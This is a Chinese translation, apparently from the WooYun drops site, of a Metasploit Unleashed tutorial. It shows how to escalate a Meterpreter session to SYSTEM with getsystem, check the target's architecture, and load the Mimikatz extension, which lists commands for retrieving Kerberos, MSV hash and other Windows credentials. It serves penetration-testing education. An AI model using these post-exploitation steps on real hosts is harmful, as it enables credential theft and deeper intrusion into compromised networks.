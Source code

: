# Mimikatz ON Metasploit

2014/06/23 14:05 | [BMa](http://drops.wooyun.org/author/BMa "由 BMa 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from：http://www.offensive-security.com/metasploit-unleashed/Mimikatz

## 0x00 背景

* * *

看了各种文章讲神器 mimikatz，但是一直没有讲与 metasploit 使用的。Metasploit 其实早就集成了 mimikatz，现在将官方的文章翻译给大家。

Mimikatz 是 Benjamin Delpy (gentilkiwi)写的非常棒的一款后渗透测试工具。在最初渗透阶段之后的大多数时间里，攻击者们可能是想在计算机/网络中得到一个更坚固的立足点。这样做通常需要一组补充的工具。Mimikatz 是一种将攻击者想执行的、最有用的任务捆绑在一起的尝试。

幸运地，metasploit 已经决定将其作为一个 meterpreter 脚本来集成 mimikatz，允许方便地访问它一系列的特性，而不需要上传任何文件到被盗用主机的磁盘上。

Note:在 metasploit 中 mimikatz 的版本是 v1.0，然而 Benjamin Delpy 早已经在他的网站上作为一个独立的包发布了 v2.0。这是有必要提出的，因为很多的语法与升级到 v2.0 已经改变了。

## 0x01 Loading Mimikatz

* * *

在得到一个 meterpreter shell 后，我们应该确保我们的 session 是运行在 system 权限以便让 mimikatz 正常工作。

```
meterpreter > getuid 
Server username: WINXP-E95CE571A1\Administrator 
meterpreter > getsystem
 ...got system (via technique 1). 
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM

```

Mimikatz 支持 32 位和 64 位的 windows 架构。在升级权限到 system 后，我们需要通过“sysinfo”命令来确认目标机器的架构。这对于 64 位机器是有必要的，因为我们可能会破坏一个 32 位的进程在 64 位的架构上。如果这样的话，meterpreter 将会尝试加载 32 位版本的 mimikatz 到内存，将可能会使得大部分的特性不可用。这可以通过查看正在运行的进程列表以及在加载 mimikatz 之前迁移到 64 位进程来避免。

```
meterpreter > sysinfo 
Computer : WINXP-E95CE571A1 
OS : Windows XP (Build 2600, Service Pack 3). 
Architecture : x86 
System Language : en_US 
Meterpreter : x86/win32

```

既然这是一个 32 位机器，我们可以加载 mimikatz 模块进内存：

```
meterpreter > load mimikatz 
Loading extension mimikatz...success. 
meterpreter > help mimikatz

# Mimikatz Commands

    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom commannd
    msv               Attempt to retrieve msv creds (hashes)
    ssp               Attempt to retrieve ssp creds
```